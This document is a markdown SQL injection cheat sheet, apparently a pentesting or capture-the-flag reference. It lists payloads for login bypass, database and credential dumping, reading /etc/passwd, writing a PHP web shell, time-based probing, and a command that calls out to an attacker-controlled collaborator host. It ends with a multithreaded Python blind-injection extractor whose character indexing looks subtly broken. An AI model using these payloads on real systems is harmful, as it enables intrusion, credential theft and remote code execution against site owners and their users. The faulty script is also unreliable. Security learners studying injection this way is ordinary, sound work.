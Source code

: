 ## SQL Injection

### Payload SQL injection

| **Payload**                                                                                                                                | **Description**                                      |
| ------------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------- |
| **Auth Bypass**                                                                                                                            |
| `admin' or '1'='1`                                                                                                                         | Basic Auth Bypass                                    |
| `admin')-- -`                                                                                                                              | Basic Auth Bypass With comments                      |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)              |
| **Union Injection**                                                                                                                        |
| `' order by 1-- -`                                                                                                                         | Detect number of columns using `order by`            |
| `cn' UNION select 1,2,3-- -`                                                                                                               | Detect number of columns using Union injection       |
| `cn' UNION select 1,@@version,3,4-- -`                                                                                                     | Basic Union injection                                |
| `UNION select username, 2, 3, 4 from passwords-- -`                                                                                        | Union injection for 4 columns                        |
| **DB Enumeration**                                                                                                                         |
| `SELECT @@version`                                                                                                                         | Fingerprint MySQL with query output                  |
| `SELECT SLEEP(5)`                                                                                                                          | Fingerprint MySQL with no output                     |
| `cn' UNION select 1,database(),2,3-- -`                                                                                                    | Current database name                                |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`                                                                  | List all databases                                   |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`                                 | List all tables in a specific database               |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`                | List all columns in a specific table                 |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -`                                                                       | Dump data from a table in another database           |
| **Privileges**                                                                                                                             |
| `cn' UNION SELECT 1, user(), 3, 4-- -`                                                                                                     | Find current user                                    |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`                                                               | Find if user has admin privileges                    |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -`                  | Find if all user privileges                          |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection**                                                                                                                         |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`                                                                                   | Read local file                                      |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'`                                                               | Write a string to a local file                       |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`                                  | Write a web shell into the base web directory        |
| `' XOR(if(now()=sysdate(),sleep(5),0))XOR'`                                                                                                | Timebase                                             |
| `0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927`                                                                                      | Timebase                                             |
| `' copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                     | lookup to attacker server                            |

### Blind injection Enumeration

```python
import string
import requests
import threading

possible = string.ascii_letters + string.digits + "{}_" + string.punctuation
host = 'HOST'
headers = {
    "Content-Type": "application/json"
}
THREADS = 50
FILTER_RESPONSE = "wrong!"

flag = ['' for _ in range(THREADS)]

def exp(index):
    for char in possible:
        print("Trying: ", char, end="\r")
        payload = f"(case when substr((select tbl_name from sqlite_master where tbl_name like 'flag%'),{len(flag)+1},1)='{char}' then '1' else NULL end)"

        body = {
            'submissionID': 1,
            'pagination': payload
        }

        res = requests.post(host, json=body, headers=headers)
        if FILTER_RESPONSE not in res.text:
            print(f"Found: {char} - index: {index}")
            flag[index] = char
            return

if __name__ == '__main__':
    threads = []
    for i in range(THREADS):
        t = threading.Thread(target=exp, args=(i,))
        threads.append(t)
        t.start()
    for t in threads:
        t.join()
    print(''.join(flag))
```
